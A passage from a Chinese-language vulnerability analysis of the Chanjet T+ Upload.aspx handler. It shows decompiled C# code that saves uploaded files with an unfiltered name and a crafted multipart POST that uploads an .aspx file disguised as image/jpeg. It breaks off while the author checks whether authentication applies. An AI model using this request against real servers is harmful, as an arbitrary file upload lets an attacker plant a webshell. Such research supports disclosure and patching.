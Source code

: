     				"'); parent.document.getElementById('myimg').src='",  
    				text,  
    				"';</script>"  
    			}));  
    			return;  
    		}  
    		string fileName = this.File1.PostedFile.FileName;  
    		string text2 = fileName.Substring(fileName.LastIndexOf('\\') + 1);  
    		this.File1.PostedFile.SaveAs(base.Server.MapPath(".") + "\\images\\" + text2);  
    		string text3 = base.Server.MapPath(".") + "\\images\\" + text2;  
    		this.ViewState["fileName"] = "images/" + text2;  
    		TPContext.Current.Session["ImageName"] = text3;  
    	}  
    }  
    

  

代码大概的意思为。上传的文件不大于2M 然后判断Content-Type 是否为其中一个类型。然后写入到images 目录中。文件名没有任何过滤。

构造一下上传代码

    
    
    POST /tplus/SM/SetupAccount/Upload.aspx HTTP/1.1  
    Host: 192.168.1.77:8080  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
    Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093  
    Connection: close  
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Length: 182  
      
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Disposition: form-data; name="File1";filename="11.aspx"  
    Content-Type: image/jpeg  
      
    1  
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt--  
    

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140127.png)

  

发现需要登陆。那么翻看一下代码好像没有找到鉴权的地方。那么找一下他的引用文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140125.png)

  
